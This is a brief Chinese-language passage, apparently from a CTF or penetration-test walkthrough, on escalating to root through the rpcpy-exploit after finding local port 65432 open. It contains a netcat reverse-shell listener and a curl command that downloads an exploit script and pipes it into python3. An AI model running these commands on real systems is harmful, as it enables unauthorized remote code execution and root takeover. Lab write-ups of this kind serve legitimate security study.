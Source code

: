 立足点枚举到本地开放65432可以结合 ps 进程判断是否存在 **rpcpy-exploit** 本地权限提升
https://github.com/ehtec/rpcpy-exploit/tree/main
```bash
rlwrap nc -lvvnp 2233
curl <IP>:<port>/exp.py |python3
```
提权至 root User

